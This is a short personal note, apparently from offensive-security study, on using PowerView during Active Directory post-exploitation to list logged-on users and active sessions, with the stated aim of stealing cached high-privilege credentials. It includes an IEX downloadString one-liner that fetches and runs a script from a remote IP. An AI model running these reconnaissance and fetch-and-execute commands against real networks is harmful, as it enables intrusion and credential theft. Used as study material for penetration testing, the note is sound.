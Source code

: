 PowerView (AD Post Exploit)

# Currently Logged In Users

<ins>Objective:</ins> Find active members who have high privileges since their privileges will be cached in memory and we can steal and auth with them

![ffe19110147790c01baac9f6d95ce0e1.png](:/0aa973ff22ed44e3b34500e3442393ed)

If powershell directly, \[Apparently it doesn't work\]

> NetWkstaUserEnum  # lists information about all users currently logged on to the workstation.
> 
> NetSessionEnum(&"servername", &"workstationname", &"username", 502)  # https://docs.microsoft.com/en-us/windows/win32/api/lmshare/nf-lmshare-netsessionenum

**May have errors. Instead, use PowerView to save time (inside /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 or ~/ADlibs)**

- Either DownloadFile or DownloadString(No need import)

> Import-Module .\\PowerView.ps1
> 
> IEX(New-Object System.Net.WebClient).downloadString('http://192.168.49.154/PowerView.ps1')
> 
> Get-NetLoggedon -ComputerName &lt;workstation&gt; # NetWkstaUserEnum - get logged on user list

![fad1c8ed8c2fc50014659ecb25fc6637.png](:/78133b2a55b44b30be84cf56164042c2)

> Get-NetSession -ComputerName &lt;DC&gt; # NetSessionEnum - Get active sessions

![2d91a92b1743c78b260b0ec7ffb8cc18.png](:/c8dfaf8ca3b54b248630872404920194)

id: 7ae7e944304240578b19ddef6d1ed8c5
parent_id: ac0bd99a1a324cb6a297fd05a2b92039
created_time: 2022-01-30T14:08:52.272Z
updated_time: 2022-05-19T12:34:26.211Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-30T14:08:52.272Z
user_updated_time: 2022-05-19T12:34:26.211Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1